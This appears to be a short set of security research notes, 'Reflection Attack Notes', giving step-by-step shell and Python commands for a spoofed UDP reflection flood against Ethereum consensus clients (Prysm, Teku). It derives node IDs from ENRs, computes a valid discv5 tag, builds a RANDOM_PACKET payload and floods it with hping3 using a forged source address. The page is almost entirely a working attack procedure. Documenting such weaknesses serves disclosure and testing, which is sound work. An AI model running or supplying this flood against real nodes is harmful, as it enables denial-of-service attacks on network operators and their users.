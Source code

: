 ## Reflection Attack Notes



Start Prysm and get src node-id from ENR:
```bash
> SRC=$(rumor shell < <(sh nodeid-from-enr.sh $ENR_SRC)| tr -d '\r\n' | cut -d'=' -f15 | cut -d' ' -f1)
```
Start Teku and get dest node-id from ENR:
```bash
> DEST=$(rumor shell < <(sh nodeid-from-enr.sh $ENR_DEST)| tr -d '\r\n' | cut -d'=' -f15 | cut -d' ' -f1)
```

Derive tag from src node-id and dest node-id and dump to file:
```bash
> TAG=$(python src-id-from-tag.py src $(echo $SRC) $(echo $DEST))
```


Check that we can derive src node-id from dest node-id and tag.  (NOT REQUIRED)
```bash
> python src-id-from-tag.py dest $(echo $DEST) $(echo $TAG)
224487b067cbcaba99dc7b4477fb6085c06273f57101c58042125bba7dc9d6c3
```


Create RANDOM_PACKET payload with valid tag

```python
import binascii
 
with open('tag.payload') as f, open('payload.output', 'wb') as fout:
     for line in f:
         fout.write(
             binascii.unhexlify(''.join(line.split()))
         )

```

Send payload:

```bash

> sudo hping3 -d 46 --flood --udp -p 9000 -s 9001 -k -a 192.168.1.212 192.168.1.212 -J -E payload.output

```
